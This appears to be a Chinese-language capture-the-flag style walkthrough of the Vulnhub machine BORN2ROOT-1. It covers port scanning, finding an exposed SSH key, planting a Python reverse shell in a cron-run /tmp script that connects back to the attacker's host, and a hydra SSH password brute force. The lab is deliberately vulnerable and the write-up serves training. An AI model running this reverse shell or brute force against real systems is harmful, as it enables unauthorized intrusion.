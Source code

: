 ```yaml
---
title: Vulnhub 197 BORN2ROOT-1
date: 2017-06-10
---
```


考点：id_rsa,hydra

靶机链接：<https://www.vulnhub.com/entry/born2root-1,197/>
<!--more-->
## 环境配置

| 名称        | IP        |
| ----------- | --------- |
| Kali Linux  | 10.0.2.24 |
| BORN2ROOT-1 | 10.0.2.40 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

### WEB测试

#### 端口80

![1](https://static.iihack.com/vulnhub/197/1.jpg)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://static.iihack.com/vulnhub/197/2.jpg)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://static.iihack.com/vulnhub/197/3.jpg)

访问`icons`目录发现目录可访问

![4](https://static.iihack.com/vulnhub/197/4.jpg)

发现ssh登录认证密钥

![5](https://static.iihack.com/vulnhub/197/5.jpg)

## 获得权限

### martin

![6](https://static.iihack.com/vulnhub/197/6.jpg)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://static.iihack.com/vulnhub/197/7.jpg)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://static.iihack.com/vulnhub/197/8.jpg)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://static.iihack.com/vulnhub/197/9.jpg)

通过sftp上传`linpeas.sh`和`pspy`

### jinmy

通过`linpeas.sh`发现

![10](https://static.iihack.com/vulnhub/197/10.jpg)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://static.iihack.com/vulnhub/197/11.jpg)

### hadi

```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典

```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```

使用hydra爆破用户`hadi`的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://static.iihack.com/vulnhub/197/12.jpg)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://static.iihack.com/vulnhub/197/13.jpg)